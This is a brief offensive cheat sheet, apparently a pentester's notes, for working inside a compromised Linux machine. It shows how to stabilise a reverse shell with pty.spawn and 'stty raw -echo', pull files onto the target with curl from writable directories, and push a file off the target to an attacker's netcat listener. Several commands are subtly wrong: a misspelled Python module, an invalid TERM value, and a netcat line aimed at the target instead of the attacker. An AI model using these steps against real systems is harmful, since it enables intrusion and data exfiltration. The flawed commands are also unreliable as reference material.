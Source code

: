 Transfer files:

```php
python -m simpleHTTPserver
```

Stabilise shell:

```php
python -c "import pty; pty.spawn('/bin/bash')"
```

- Background the instance with CTL+Z 
- Disable text display on the attacker machine and then switch to the foregrounded process (the target’s machine)

```php
stty raw -echo && fg
```

set the terminal environment to something more appealing (e.g. xterm, xterm-256, etc)

```php
export TERM=xterm-256-color
```

##### Curl

Move to a writable directory

```bash
cd /dev/shm
```

or 

```bash
cd /tmp/
```

Then Curl

```bash
curl <IP>/<File>
```

check for transfer tools:

`which wget`
`which curl`

Transfer files with netcat:

Me
```php
nc -lvp 4444 > FILE
```

Target
```php
nc <Target> 4444 -w 3 < FILE
```

- -w specify timeout